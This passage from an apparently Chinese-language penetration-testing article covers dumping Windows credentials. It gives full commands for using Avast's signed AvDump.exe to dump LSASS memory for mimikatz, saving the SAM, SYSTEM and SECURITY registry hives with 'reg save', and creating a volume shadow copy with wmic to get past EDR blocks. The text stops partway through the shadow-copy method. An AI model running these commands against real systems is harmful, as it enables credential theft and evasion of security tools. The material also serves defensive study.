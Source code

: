 在本机的上面跑 mimikazi 进行密码的成功查看

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54gcW8GhcSaWq28addf6eaQ91N9HcsUXryNSHDtykEz7MopoicabeyWPMopt0HL3pGBiblEGKru8TIw/640?wx_fmt=png)

**Avdump**

Avdump.exe 是在 Avast HomeSecurity 产品套件一起提供的小工具。顾名思义，该实用程序将给定进程标识符的内存转储到用户指定的位置。我们可以通过它进行新的 dump 方式利用。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54gcW8GhcSaWq28addf6eaQtuiaBlL90L9DkXQ815aH0JbIjsaK9vuwMWbNs9epJQRoTNCegm68xQw/640?wx_fmt=png)

它自带 Avast 杀软公司白签名。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54gcW8GhcSaWq28addf6eaQ8eykKerJ16NJkicEtF4vG8hXfQhlSibFLnv2XQBXUz7B0jJSO99FuCmQ/640?wx_fmt=png)

我们直接运行即可。

```
.\AvDump.exe --pid 696 --exception_ptr 0 --dump_level 1 --thread_id 0--min_interval 0 --dump_file e:\tmp\last.dmp
```

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54gcW8GhcSaWq28addf6eaQI3Wv1NGtSLKmsP2fUsicOQeUSyLmV7s0qDAicft2zW0Sa7m9N6pT8wPQ/640?wx_fmt=png)

在本机的上面跑 mimikazi 进行密码的成功查看。

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54gcW8GhcSaWq28addf6eaQNNMtKBjbDME1U8nxxaaF5D4FLkVUlgVV42tXmlXjW54ca9cggicELdw/640?wx_fmt=png)

**SAM 解密**

像一些变态的 EDR，会禁用 Procdump、Minidump 等⽅式转储 lsass 进程，我们可以换一种方法。

SAM 它是安全帐户管理器。⽤于存储⽤户和 hash，可以⽤来验证本地和远程⽤户。

要解密 hash，我们需要获取到 SAM SYSTEM SECURITY 这三个⽂件。只要有这 3 个文件我们就能进行读取。

**注册表复值**

REG SAVE 将指定的子项、项和注册表值的副本保存到指定文件中，直接保存就完事了。

```
reg save hklm\system SYSTEM
reg save hklm\sam SAM
reg save hklm\security SECURITY
```

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54gcW8GhcSaWq28addf6eaQrEf7T0exCRk7iaeocXE6eic15H9TRDurKI9f9akh3PzRd11JUrrVUNrw/640?wx_fmt=png)

**卷影复制**

通过拷⻉卷影副本卷中的⽂件来读取 3 个文件

先创建 c 盘的 shadowscopy

```
wmic shadowcopy call create volume='c：\'
```

![](https://mmbiz.qpic.cn/mmbiz_png/WTOrX1w0s54gcW8GhcSaWq28addf6eaQDSnxVlibiaaolYCmp1kSFVAvs4iblxdIOgy1XHUY0QTsr001ShKKuQoyQ/640?wx_fmt=png)  
